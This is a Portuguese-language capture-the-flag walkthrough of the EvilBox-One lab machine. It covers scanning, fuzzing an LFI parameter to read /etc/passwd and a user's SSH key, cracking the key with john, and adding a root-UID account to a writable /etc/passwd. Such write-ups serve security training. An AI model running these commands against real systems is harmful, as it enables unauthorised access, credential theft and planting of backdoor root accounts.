EvilBox-One
▸ EvilBox-One
◇ Enumeration
◇ Exploitation
◇ Post-Exploitation
◇ Privilege Escalation
-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----
#lfi #apache2 #feroxbuster #passwd #openssl #ssh2john #john
-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----
- Localizado diretório com uma página php suspeita
- Feito fuzz na página e descoberto um parametro com vulnerabilidade LFI
- Através da vulnerabilidade foi possivel obter a chave ssh de um dos usuarios
- Chave esta criptografa, utilizado as ferramentas ssh2john e john para descobrir a senha
- Após acesso foi descoberto que possuimos permissão de escrita no arquivo /etc/passwd
- Criado novo usuario “eldruin” com permissão de root
-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----x-----
Enumeration
sudo masscan -p 1-65535 -i tun0 --rate=1000 192.168.115.212

└─$ sudo nmap -sCV -Pn -p 80,22 192.168.115.212

Acessando a porta 80 temos a página padrão do Apache2

Então vamos tentar localizar outros diretorios ou arquivos no site
└─$ feroxbuster -u http://192.168.115.212 -w ~/wordlists/big.txt -x php,html,txt,xml

Interessante, achamos um diretorio “secret” com uma página “evil.php”. Vamos acessá-la

Infelizmente ela não trouxe nada, vamos fazer uma busca por parametros
└─$ wfuzz --hw 0 -c -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.115.212/secret/evil.php?FUZZ=/etc/passwd

Exploitation
Perfeito, vamos ver o que este parametro retorna
└─$ curl http://192.168.115.212/secret/evil.php?command=/etc/passwd

Ótimo, temos uma vulnerabilidade LFI.
Verificando melhor o arquivo encontramos os usuario “root” e “mowree”. Vamos enumerar melhor para buscar um ponto de entrada
└─$ curl http://192.168.115.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa

Ótimo, vamos baixar essa chave e tentar logar como o usuario mowree

Opa, não percebi que a chave estava encryptada. Então vamos recorrer ao bom e velho "john"
└─$ ssh2john id_rsa > enc_id_rsa
└─$ john enc_id_rsa -w=/home/eldruin/wordlists/rockyou.txt

Ok, agora vamos tentar novamente

HABEMUS SHELL \o/
Post-Exploitation
Vamos pegar a primeira flag

Alguns comandos básicos de enumeração não retornaram nada interessante

Um dos scripts de enumeração que mais gosto é o linpeas. Vamos upar ele na máquina e executá-lo


Um dos resultados do script é interessante

Privilege Escalation
Então possuimos permissão de escrita no arquivo passwd, então podemos criar um novo usuario como root
Geralmente eu começo copiando uma das linhas do arquivo e alterando ela
root:x:0:0:root:/root:/bin/bash > eldruin:x:0:0:root:/root:/bin/bash
Porém precisamos colocar um password no lugar do “x”, para isso usamos o comando openssl
└─$ openssl passwd eldruin

Atualizamos a linha anterior
eldruin:IL7LYcCa2b9l6:0:0:root:/root:/bin/bash
E agora colocamos essa linha no final do arquivo
echo "eldruin:IL7LYcCa2b9l6:0:0:root:/root:/bin/bash" >> /etc/passwd
E com isso conseguimos logar com nosso novo usuario

Agora é só pegar a última flag
